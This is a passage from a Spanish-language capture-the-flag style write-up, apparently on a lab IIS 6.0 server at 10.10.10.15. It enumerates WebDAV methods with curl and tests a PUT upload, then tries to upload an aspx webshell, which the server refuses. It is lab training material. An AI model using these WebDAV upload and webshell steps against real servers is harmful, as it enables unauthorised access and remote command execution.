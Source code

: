 Si en el escaneo de **Nmap** no nos huiera mostrado los métodos que se encuentran habilitados en el `WebDAV`, podemos realizar una solicitud con `cURL` para revisar la cabecera de la solicitud enviada.

```bash
❯ curl -s -X OPTIONS http://10.10.10.15 -I
HTTP/1.1 200 OK
Date: Sat, 25 Jan 2025 21:47:35 GMT
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
MS-Author-Via: MS-FP/4.0,DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private
```

Realizaremos una prueba de enviar a través del método `PUT` el archivo `gzzcoo.txt` que contiene el nombre de nuestro usuario.

```bash
❯ whoami > gzzcoo.txt

❯ cat gzzcoo.txt
kali

❯ curl -s -X PUT http://10.10.10.15/gzzcoo.txt -d @gzzcoo.txt
```

Accediendo a la ruta donde hemos subido el archivo, verificamos que se ha subido correctamente y podemos visualizar el contenido del archivo.

<figure><img src="../../.gitbook/assets/4123_vmware_QhHdCI8Arw.png" alt=""><figcaption></figcaption></figure>

Trataremos de subir una **webshell** de **aspx** en el sitio web. Al tratar de subirlo por el método `PUT` se nos indica que no disponemos de los permisos, por lo tanto, parece ser que el servidor bloquea la subida de archivos con esa extensión.

```bash
❯ ls -l cmdasp.aspx
.rw-r--r-- kali kali 1.4 KB Sat Jan 25 22:46:23 2025  cmdasp.aspx

❯ curl -s -X PUT http://10.10.10.15/cmd.aspx -d @cmdasp.aspx
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>
```